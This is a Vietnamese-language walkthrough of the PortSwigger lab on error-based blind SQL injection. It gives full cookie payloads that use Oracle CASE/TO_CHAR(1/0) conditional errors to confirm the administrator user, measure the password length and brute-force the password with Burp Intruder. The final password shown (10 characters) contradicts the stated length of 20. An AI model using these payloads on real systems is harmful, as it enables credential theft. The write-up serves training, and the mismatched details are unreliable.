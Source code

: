 

# >🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

>⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều  



## condition error based SQLi

### Vấn đề của Blind SQLi 
Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về gt hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giông nhau nen khong dùng duoc
### Tạo lỗi có điều kiện ( Conditional Error )
Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### Thực hành
```sql
CASE 
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```
```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.



Ví dụ:
```sql
SELECT 
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```


Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### Giải lab
Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
    Ghi lại hoạt động của người dùng (tracking).
    Liên kết với session hoặc log để phân tích hành vi.
    Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

-B1. thử trackingID có bị SQLi không
![alt text](image.png)
![alt text](image-1.png)

chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là 
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> có SQLi

-B2. thử `abc'||( select '' from dual)|| '`  . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
trong oracle '' = NULL trong mysql
![alt text](image-2.png)

-> ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

-B3. thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
backend hay không.

FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
![alt text](image-3.png)

-B4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

-B5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

-B6. Tính độ dài của password

![alt text](image-8.png) 
![alt text](image-9.png)

password có độ dài bằng 20 kí tự . 

B7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list). 
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theotheo)
dùng như nào thì tự tìm hiểu nhé!

đây là ví dụ về kí tự đầu tiên
![alt text](image-10.png)

password ="sbeu5dvy8f"




